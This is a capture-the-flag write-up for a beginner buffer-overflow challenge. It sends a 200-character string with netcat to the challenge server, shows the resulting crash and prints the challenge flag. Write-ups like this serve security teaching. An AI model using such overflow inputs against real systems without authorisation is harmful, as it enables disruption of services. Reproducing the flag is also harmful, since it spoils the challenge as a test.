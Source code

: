 # Buffer overflow 1 

## Description

> Just Crash IT.

## Write-Up

As the title says, this is a challenge that illustrates a **Buffer Overflow** vulnerability. So, let's try to connect to the instance and *Crash IT* using a large string :

```py
In [1]: 'a'*200
Out[1]: 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
```

```
└─$ nc pwn.challs.ctf.shellmates.club 1400
__        __   _
\ \      / /__| | ___ ___  _ __ ___   ___
 \ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \
  \ V  V /  __/ | (_| (_) | | | | | |  __/
   \_/\_/ \___|_|\___\___/|_| |_| |_|\___|


Your goal is to cause a segmentation fault while the program is running on the remote server
Enter your name >aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
The flag of this challenge is : shellmates{always_ensure_memory_saf3ty}
```


## Flag

shellmates{always_ensure_memory_saf3ty}